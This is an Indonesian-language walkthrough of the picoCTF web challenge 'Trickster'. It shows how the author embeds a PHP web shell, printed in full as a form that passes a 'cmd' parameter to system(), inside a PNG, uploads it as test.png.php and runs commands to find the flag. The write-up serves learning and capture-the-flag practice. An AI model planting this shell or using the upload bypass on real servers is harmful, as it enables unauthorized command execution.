 
# Trickster Writeup - picoCTF

**Halo teman-teman!!**  
Ayo lihat bagaimana aku menyelesaikan challenge web exploit **Trickster** di picoCTF ini! Dijamin seru dan penuh kejutan 😎.

---

## 1. Meluncurkan Mesin
Langkah pertama, aku meluncurkan mesinnya terlebih dahulu.

![Meluncurkan Mesin](image1.png)

---

## 2. Membuka Website Target
Aku membuka websitenya dan mulai berpikir, "Hmm... kemungkinan besar aku akan mengeksekusi ini dengan **Burp Suite**."

![Website Target](image2.png)

---

## 3. Mengaktifkan Intercept di Burp Suite
Langsung saja aku membuka **Burp Suite** dan menyalakan **Intercept** di browsernya.

![Burp Suite Intercept](image3.png)

---

## 4. Validasi File Gambar
Aku mencoba upload gambar random. Ketika dicek di Burp Suite, ternyata gambarnya valid!

---

## 5. Cek `/robots.txt`
Langkah berikutnya, aku membuka `/robots.txt`. Benar saja, ada petunjuk menarik di sana!

![Robots.txt](image4.png)

---

## 6. Petunjuk di `instructions.txt`
Petunjuk di `/robots.txt` mengarahkan ke file `instructions.txt` dan folder `/uploads/`. Ketika dibuka, aku menemukan informasi yang lebih detail.

![Instructions.txt](image5.png)

---

## 7. Menemukan Celah Upload
Aku menyadari file PNG yang diunggah bisa disisipkan kode PHP. Setelah mencari skrip di Google, aku menemukan kode ini dari [gist ini](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---

## 8. Menyisipkan PHP ke File PNG
Seperti yang sudah aku duga, ini bukan sekadar file PNG biasa. Aku menyisipkan kode PHP ke dalam file PNG asli dengan hati-hati agar tetap valid. Hasilnya terlihat seperti ini:

![Kode PNG](image6.png)

---

## 9. Menyimpan File Sebagai `test.png.php`
Aku mengganti kode tersebut, lalu menyimpannya dengan nama `test.png.php`.

![Test.png.php](image7.png)

---

## 10. Mengunggah File
Aku membuka browser dan mengunggah file `test.png.php`. Ternyata, langkah ini tidak memerlukan **Burp Suite** sama sekali, dan... alhamdulillah, berhasil!

![Upload Berhasil](image8.png)

---

## 11. Eksekusi File di `/uploads`
Selanjutnya, aku mengecek file yang diunggah di `/uploads/test.png.php`, dan yup! Injeksi berhasil dilakukan.

![Injeksi Berhasil](image9.png)

---

## 12. Menemukan File Tersembunyi
Aku menjalankan perintah `find / -name "*.txt"` seperti di terminal. Setelah menggulir ke bawah, aku menemukan file mencurigakan dan mencatat lokasinya.

![Pencarian File](image10.png)  
![File Ditemukan](image11.png)

---

## 13. Menemukan Flag
Dengan menggunakan perintah **`cat`**, aku membaca file tersebut dan... BOOOMMM!!! Muncul flagnya! 🎉

![Flag Muncul](image12.png)

---

## **Kesimpulan**
Challenge ini mengajarkan cara eksploitasi upload file, menyisipkan kode PHP, dan teknik mencari file tersembunyi. Ini sangat menyenangkan dan penuh pelajaran berharga. Coba sendiri dan semoga berhasil! 💻
